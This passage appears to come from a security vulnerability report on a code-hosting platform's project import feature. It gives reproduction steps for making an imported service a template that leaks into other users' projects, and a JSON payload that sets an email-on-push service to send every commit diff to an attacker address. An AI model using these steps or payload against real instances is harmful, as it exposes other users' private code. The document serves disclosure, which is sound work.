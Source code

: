 1. Sign in as any user
1. Create a new project
1. Enable the CI service through Settings > Integrations
1. Export the project and download the export file
1. Extract the files, it'll contain a `project.json` file
1. Replace `"template":false` in the `services` array with `"template":true`
1. Replace `CiService` in the `services` array with `MockCiService`
1. Create a new tar file (`tar -zcvf service_template.tar.gz project.json VERSION project.bundle`)
1. Upload the tar file
1. Sign in as another user
1. Create another project
1. Immediately export the project and download the export file
1. Extract the files
1. Observe that the `project.json` file will contain the service created for the other project

# Additional, seemingly, less severe issues
When looking into this feature, it was also observed that an attacker can create custom attributes for a project. I noticed that custom project attributes can only be created by an instance Administrator. However, by specifying custom attributes in the `custom_attributes` array, a user can create custom project attributes for the project that is being created. Depending on how the custom attributes are used on the instance, this may have additional consequences.

## Impact

An attacker can decide on what strategy to take with this vulnerability. The most interesting ones that I could find are described below.

**Exfiltrating repository event**
The `EmailsOnPushService` has the option to include a commit diff in an email. When the JSON below is added to the `project.json` file, any commit's diff will be emailed to the attacker.

```json
{
  "id": 41858507,
  "title": "Email",
  "project_id": 9465078,
  "created_at": "2018-11-18T01:22:06.990Z",
  "updated_at": "2018-11-18T01:22:06.990Z",
  "active": true,
  "properties": {
    "send_from_committer_email": false,
    "disable_diffs": false,
    "recipients": "attacker@domain.tld"
  },
  "template": true,
  "push_events": true,
  "issues_events": true,
  "merge_requests_events": true,
  "tag_push_events": true,
  "note_events": true,
  "category": "ci",
  "default": false,
  "wiki_page_events": true,
  "pipeline_events": true,
  "confidential_issues_events": true,
  "commit_events": true,
  "job_events": true,
  "confidential_note_events": true,
  "type": "EmailsOnPushService"
}
```
